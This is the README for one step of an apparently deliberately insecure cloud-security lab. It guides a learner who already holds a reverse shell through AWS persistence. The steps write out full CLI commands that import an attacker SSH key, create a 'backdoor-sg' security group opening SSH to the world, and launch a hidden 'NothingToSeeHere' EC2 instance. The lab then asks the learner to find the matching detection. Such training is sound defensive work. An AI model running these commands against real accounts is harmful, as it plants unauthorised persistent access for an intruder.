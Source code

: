 # 🔥 Vulnerable Labs: Persistence Pays Off!
*A deliberately insecure application for security education and demos*

---

## 💀 About the Challenge

In this exercise you'll learn how to leverage excessive permissions and misconfigurations to gain persistence in a cloud environment.

Mitre ATT&CK defines persistence as techniques to allow adversaries to maintain their access to systems and devices across restarts and other interruptions. 


### 🎯 Your Mission

1. On your laptop, open a terminal and run the following command to generate a new SSH keypair:
```bash
ssh-keygen -t rsa -f attacker_key
```
2. Update the permissions on the generated keys 
```bash
chmod 0600 attacker_key*
```
3. Run the following command to obtain the attacker_key public key. Note it down as you'll need this shortly.
```bash
cat attacker_key.pub
```
4. Ensure your reverse shell is still active. You can re-run the reverse shell commands from [2-Reverse-Shell.md](2-Reverse-Shell.md) if needed.
5. Run the following commands to install the AWS CLI (note we're using the tmp directory which is writeable):
```bash
curl "https://awscli.amazonaws.com/awscli-exe-linux-x86_64.zip" -o "/tmp/awscliv2.zip" && unzip /tmp/awscliv2.zip -d /tmp/aws && cd /tmp/aws && ./install --install-dir /tmp/aws-cli --bin-dir /tmp/aws-cli-bin && /tmp/aws-cli-bin/aws sts get-caller-identity
```
6. Run the following command to create a file containing your attacker public key
```bash
echo "{attacker_key.pub}" > /tmp/attacker_key.pub
```
7. Run the following command to import your SSH Public Key
```bash
/tmp/aws-cli-bin/aws ec2 import-key-pair --key-name attacker_key --public-key-material fileb:///tmp/attacker_key.pub
```
8. Run the following command to create a security group
```bash
/tmp/aws-cli-bin/aws ec2 create-security-group \
--group-name backdoor-sg \
--description "SSH access for attacker" \
--vpc-id $(/tmp/aws-cli-bin/aws ec2 describe-vpcs --query "Vpcs[0].VpcId" --output text)
```
9. Run the following command to create a security group rule:
```bash
/tmp/aws-cli-bin/aws ec2 authorize-security-group-ingress \
--group-id $(/tmp/aws-cli-bin/aws ec2 describe-security-groups --filters "Name=group-name,Values=backdoor-sg" --query "SecurityGroups[0].GroupId" --output text) \
--protocol tcp \
--port 22 \
--cidr 0.0.0.0/0
```
10. Run the following command to launch a new shadow EC2 instance:
```bash
/tmp/aws-cli-bin/aws ec2 run-instances \
--instance-type t2.micro \
--image-id ami-0aa2b7722dc1b5612 \
--subnet-id $(/tmp/aws-cli-bin/aws ec2 describe-subnets --query "Subnets[?MapPublicIpOnLaunch].SubnetId | [0]" --output text) \
--tag-specifications 'ResourceType=instance,Tags=[{Key=Name,Value=NothingToSeeHere}]' \
--security-group-ids $(/tmp/aws-cli-bin/aws ec2 describe-security-groups --group-names backdoor-sg --query "SecurityGroups[0].GroupId" --output text) \
--key-name attacker_key \
--associate-public-ip-address
```
11. SSH to the newly created EC2 instance


Congratulations, you've completed this challenge. Can you now find the corresponding detection in Wiz? How long did it take to appear in the console?

### 💥 Hints & Tips

